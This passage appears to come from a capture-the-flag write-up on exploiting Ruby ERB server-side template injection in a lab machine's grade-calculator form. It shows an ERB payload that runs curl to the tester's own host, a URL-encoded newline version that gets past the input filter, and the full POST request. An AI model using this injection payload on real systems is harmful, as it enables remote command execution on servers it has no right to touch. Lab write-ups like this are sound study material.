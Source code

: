 ![Service crashed](/assets/img/Perfection/Perfection_03.png)

So this could be that the Server Side Template Injection is actually working but the front end is not able to return it. To prove this theory i'd replace my payload to something that does a web request to our own server. With the following payload we would be able to send a curl request to our own machine 

```ruby
<%= system("curl http://10.10.16.42/10")%>
```

This command would not work because of the encoding so next up is the command with the right encoding

```
a%0A%3c%25%3d%20system%28%22curl%20http%3a//10.10.16.42/10%22%29%25%3e
```

The browser would then send the following request

```
POST /weighted-grade-calc HTTP/1.1
Host: 10.129.38.85
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 244
Origin: http://10.129.38.85
Connection: close
Referer: http://10.129.38.85/weighted-grade-calc
Upgrade-Insecure-Requests: 1

category1=a%0A%3c%25%3d%20system%28%22curl%20http%3a//10.10.16.42/10%22%29%25%3e&grade1=1&weight1=20&category2=test1&grade2=2&weight2=20&category3=test2&grade3=5&weight3=20&category4=test3&grade4=5&weight4=20&category5=test4&grade5=6&weight5=20
```
